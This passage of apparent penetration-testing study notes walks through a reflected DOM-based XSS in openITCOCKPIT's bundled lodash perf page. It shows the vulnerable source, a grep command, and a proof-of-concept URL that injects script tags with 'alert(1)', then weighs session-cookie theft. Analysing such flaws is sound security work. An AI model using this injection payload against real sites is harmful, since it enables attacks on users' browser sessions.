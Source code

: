 This suggests there could be a possible XSS injection point at `http://openitcockpit/js/lodash/perf/index.html`.

The above invocations of `document.write` use either the `ui.buildPath` or `ui.otherPath` variables. If either of these variables are user-controlled, we’ll be able to inject custom input into the `document.write` function. As such, we’ll search for where these functions are defined (which would take the format `buildPath =` xxxxx. 

```bash
grep -r "buildPath\s*=" . 
```

A `switch` statement returns the value of the `build` value as long as no other condition is true. The `build` variable is set at the beginning of the file and is obtained from [`location.search`](http://location.search), which is parsed using regex. As such, we’ll want to set the `location.search` value (which is the query portion of a URL, including the question mark) to be equal to `build="><script>alert(1)</script><script src="` 

```jsx
/** The lodash build to load. */
  var build = (build = /build=([^&]+)/.exec(location.search)) && decodeURIComponent(build[1]);

// The lodash build file path.
  ui.buildPath = (function() {
    var result;
    switch (build) {
      case 'lodash-compat':     result = 'lodash.compat.min.js'; break;
      case 'lodash-custom-dev': result = 'lodash.custom.js'; break;
      case 'lodash-custom':     result = 'lodash.custom.min.js'; break;
      case null:                build  = 'lodash-modern';
      case 'lodash-modern':     result = 'lodash.min.js'; break;
      default:                  return build;
    }
    return basePath + result;
  }());
```

```jsx
XSS POC: 

https://openitcockpit/js/vendor/lodash/perf/index.html?build=%22%3E%3C/script%3E%3Cscript%3Ealert(1)%3C%2fscript%3E%3Cscript%20src%3d%22
```

## XSS Exploitation

A reflected DOM-based XSS vulnerability provides limited opportunities

1. First, it requires a victim to exploit. Unlike stored XSS, we have to craft a specific link and send it to a victim. The XSS will trigger when the victim visits the page.
2. It’s also important to note XSS only runs while the victim has the window open, and thus we want the XSS to run as quickly as possible.

When we inspect our requests, we notice a cookie named `itnovum`. Since we don’t have credentialed access, we can assume that it's used for session management. The cookie also has the `HTTPOnly`flag set (which can be seen under developer tools). This means we can’t access the user’s session cookie using XSS, and thus can’t use that vector to gain authentication.
